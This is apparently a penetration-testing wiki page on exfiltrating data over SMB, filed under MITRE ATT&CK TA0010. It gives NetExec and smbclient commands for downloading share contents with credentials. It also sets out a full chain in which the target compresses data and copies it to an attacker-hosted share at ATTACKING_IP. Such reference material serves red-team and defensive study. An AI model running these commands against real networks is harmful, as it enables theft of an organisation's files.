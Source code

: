 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

### Exfiltrate Share's Content

{% tabs %}
{% tab title="NetExec" %}
Tools like [NetExec](https://github.com/Pennyw0rth/NetExec) can be used to recursively download a SMB share's content.

```bash
netexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=999999
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(keys)'
```
{% endtab %}

{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}
{% endtabs %}

### Exfiltrate Data

{% tabs %}
{% tab title="Windows" %}
To exfiltrate the data from the target, we can compress the data and transfer it via an SMB shared folder hosted on our attacking host.

First, start a SMB server on your attacking host using [smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) from impacket

```bash
smbserver.py -smb2support /local/share/path ShareName -user veresk -password psswd
```

On the target, compress target data

```powershell
Compress-Archive -Path /path/to/compress -DestinationPath exfi.zip
```

From the target, mount the share folder and copy files to it

```powershell
# Mount the smb share
net use Z: \\ATTACKING_IP\ShareName psswd /USER:veresk

# Exfiltrate ZIP file
copy exfi.zip Z:\
```
{% endtab %}
{% endtabs %}
